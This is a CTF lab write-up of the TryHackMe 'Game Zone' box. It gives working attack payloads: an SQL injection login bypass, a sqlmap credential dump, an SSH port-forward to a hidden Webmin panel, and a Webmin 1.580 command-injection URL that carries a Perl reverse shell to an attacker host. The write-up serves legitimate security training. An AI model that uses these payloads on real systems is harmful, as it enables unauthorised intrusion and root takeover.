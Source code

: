 ```yaml
---
layout: post
title: Game Zone | Writeup
categories: CTF
author: ThelastVvV
date: '2020-07-20 05:00:53 +0000'
tags:
  - CTF
  - CyberSecurity
  - TryHackMe
published: true
---
```


- [Game Zone](#game-zone)
- [Enumeration](#enumeration)
- [Exploitation](#exploitation)
- [Reverse SSH tunnels](#reverse-ssh-tunnels)
- [Reverse shell](#reverse-shell)
- [Root Flag](#root-flag)


<!-- toc -->


### Game Zone 
Hallå gubbar , I'm a big fan of  Sql injection vulnerabilities  and i 'm in love with Sqlmap  for ages and we are lucky to have this box to work on not hard at all and very easy if you follow up carefully .
try it out at Game Zone




1- Enumeration
2- Exploitation
3- Reverse SSH tunnels
3- Reverse shell
4- Root Flag



### Enumeration
Nmap scan & Results:
```sh
nmap -sV -p- -vv BoxIP
```

`22/tcp open ssh`
`80/tcp open http`


so we have and web server and ssh services running so lets go to 
```sh
http://Ip-Box:80/
```


### Exploitation
we will find a login with Agent-47 image which is vulnerable to auth sql injection


Try this to bypass


USERNAME: `admin' or '1' = '1'; -- -` 

PASSWORD: `vvv`


After login we can see that we have a search bar  (after trying other injection commands) we can confirm that it also vulnerable to sql injection in the "searchitem "id parameter 


Now we can jump to sqlmap to dump data

What we need ?

1. Get request 
2. Request file
3. Sqlmap

results : `userpass`


Command:
```sh
sqlmap -r dirofrequest.txt  --dbms=mtsql --dump
```


Options | Meaning |
--- | --- | 
-r| uses the intercepted request 
--dbms | type of database
--dump| dump all data

![alt text](https://thelastvvv.github.io/images/posts/4/requestsql.png "THM")


![alt text](https://thelastvvv.github.io/images/posts/4/sqlagent.png "THM")


To crack the hash use any offline tools or online services 

### Reverse SSH tunnels
so as we find earlier that we have a ssh service we will try to login with same credentials


this command :
```sh
sshpass -p Password ssh -l Username Box-Ip 
```

then run this command:
```sh
ss -tulpn
```

`ss` to investigate sockets running on the host


we find that there's `5 TCP socket` running and `1000 port` is blocked via firewall rules

so now let try to kill processes using `Ctrl+Z`


then re-login to ssh using this command:
```sh
 ssh -L 10000:localhost:10000  Username@Box-Ip
```
![alt text](https://thelastvvv.github.io/images/posts/4/localhost.png "THM")



User Flag:


![alt text](https://thelastvvv.github.io/images/posts/4/flag1.png "THM")



then go to
```sh
http://localhost:10000/
```
and just login with same credentials

![alt text](https://thelastvvv.github.io/images/posts/4/webminversion.png "THM")


CMS Webmin version `1.580`

### Reverse shell

Use searchsploit `webmin`

[https://www.exploit-db.com/exploits/21851
](https://www.exploit-db.com/exploits/21851
)


We have two option to exploited either metasploit or manual ...

go manual for faster results

```ruby


'Name'           => 'Webmin /file/show.cgi Remote Command Execution',
			'Description'    => %q{
					This module exploits an arbitrary command execution vulnerability in Webmin
				1.580. The vulnerability exists in the /file/show.cgi component and allows an
				authenticated user, with access to the File Manager Module, to execute arbitrary
				commands with root privileges. The module has been tested successfully with Webim
				1.580 over Ubuntu 10.04.
res = send_request_cgi(
			{
				'uri'     => "/file/show.cgi/bin/#{rand_text_alphanumeric(rand(5) + 5)}|#{command}|",
				'cookie'  => "sid=#{session}"
			}, 25)

```

```sh
http://localhost:1000/file/show.cgi/bin/#{rand_text_alphanumeric(5)}|#{command}|
```
```sh
http://localhost:1000/file/show.cgi/bin/#{rand_text_alphanumeric(5)}|perl%20-e%20'use%20Socket;$i=%22Your-ip%22;$p=Your-PORT;socket(S,PF_INET,SOCK_STREAM,getprotobyname(%22tcp%22));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,%22%3E&S%22);open(STDOUT,%22%3E&S%22);open(STDERR,%22%3E&S%22);exec(%22/bin/sh%20-i%22);};'%20|
```
[http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)

### Root Flag


![alt text](https://thelastvvv.github.io/images/posts/4/flagroot.png "THM")




The end ...see you next time





